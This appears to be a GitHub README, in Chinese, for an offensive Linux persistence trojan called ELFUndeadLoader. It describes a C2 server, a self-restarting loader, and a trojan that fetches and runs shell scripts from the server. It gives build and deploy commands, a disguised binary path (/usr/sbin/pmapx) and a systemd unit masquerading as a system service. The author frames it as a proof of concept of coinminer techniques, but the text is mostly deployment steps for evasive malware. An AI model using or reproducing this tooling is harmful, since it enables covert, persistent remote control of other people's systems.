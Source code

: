 # ELFUndeadLoader

Linux下的不死马，一个简单的实现

## 特点

程序整体由三部分组成：HTTPS(C2)服务器、监听器(Loader)、木马（evil）。

特点如下：

1.对外通信流量加密。

2.所有运行在目标设备上的文件中关键字符串均被混淆，抗字符串分析。

3.木马具有一定的变异性，每次重新拉起散列值都会变。

4.木马进程及监听器进程都是后台进程，稳定性较高。

5.木马进程与监听器进程无进程树继承关系。



## 原理

在Linux下部署一个监听器（Loader）进程，并添加到自启动服务。监听器会自动从服务器上下载一个恶意程序到本地，运行它的副本，当监听器发现副本程序的进程没了会自动创建一个新的副本程序。

coinminer家族`f865499c56a13d5a789ad1f8c69e87526bed2bbb66fc43874eb885c303a60b28`为了确保自身挖矿进程的持久驻留，有多种变形。本人在实际工作中遇到的过一次这样的恶意样本，本程序其实是对该家族用到的持久化技术的概念性实现及增强。

网上也有不少关于这一家族挖矿病毒的行为及排查分析。

```text
https://zhuanlan.zhihu.com/p/387469244
http://les1ie.com/2021/05/18/%E4%B8%A4%E6%AC%A1%E6%BA%AF%E6%BA%90/
```



## 使用

### HTTPS服务器

搭建一个HTTPS服务器作为文件服务器及命令控制服务器。

**step1**：搭建一个定制版的https服务器。

可以使用我写的一个https服务器。该服务器不同于普通的python服务器，支持对get/post请求的记录，无路径泄露问题，抗目录爆破攻击。

```shell
cd MyHTTPServer;
python3 MyHTTPServer.py -p 8443 
```



**step2**：编译evil.c。这是一个简单的木马后台程序，该程序能够定期向服务器请求shell脚本执行内部的命令。

```shell
cd MyHTTPServer/html/src726bbcdb43db625d685c9adbe09b;

# 你需要在evil.c中先设置好服务器地址信息。 evil.c也内置了关键字混淆器，可以打开使用。完成这些操作后执行下面命令进行编译。
gcc evil.c -o ../elf34e61aa704fcfec8a04d1dbc7a156/x64/evil
```



**step3**：在https服务器的相关目录下放置一个evil程序会定时请求的命令文件。

```
echo "hello world" >> MyHTTPServer/html/task10557089e37ed1f0ecfbfd042974/task/hello.sh
```



### ELF不死马

制作一个监听器程序，确保evil程序能够持久的驻留在系统中。

**step1**：修改obfuscator.c中关于关键地址信息的定义。混淆器会加密这些信息，并生成一份可用的加载器源码。（loader.c）

```shell
gcc obfuscator.c -o obfuscator; ./obfuscator
```



**step2**：编译加载器（loader.c），并将程序部署到目标设备上(/usr/sbin/pmapx)。

```shell
gcc loader.c -lpthread -o pmapx
```



**step3**：在目标设备上创建自启动服务。

/usr/lib/systemd/system/pmapx_start.service

```c
#  This file is part of systemd.
#
#  systemd is free software; you can redistribute it and/or modify it
#  under the terms of the GNU Lesser General Public License as published by
#  the Free Software Foundation; either version 2.1 of the License, or
#  (at your option) any later version.
#
# Entries in this file show the compile time defaults.
# You can change settings by editing this file.
# Defaults can be restored by simply deleting this file.
#
# See resolved.conf(5) for details

[Unit]
Description=System function loader.

[Service]
Type=forking
GuessMainPID=no
Restart=always
RestartSec=10
ExecStart=-/usr/sbin/pmapx

[Install]
WantedBy=multi-user.target
```

